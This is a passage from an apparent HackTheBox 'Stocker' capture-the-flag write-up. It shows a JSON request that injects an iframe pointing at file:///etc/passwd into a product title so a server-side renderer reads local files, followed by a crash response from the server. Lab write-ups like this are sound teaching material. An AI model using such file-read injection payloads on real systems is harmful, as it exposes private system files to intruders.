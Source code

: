 This doesn't work because we need to escape " character:

```
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=\"file:///etc/passwd\" width=\"1000\" height=\"1000\">","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Stocker/images/IMG5.png?raw=true)

We can note that there is user angoose.
When I did walkthrough through this box i crash it while tampering the request which returned this response:

```
HTTP/1.1 400 Bad Request
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 07 Jul 2023 11:10:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 967
Connection: close
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
```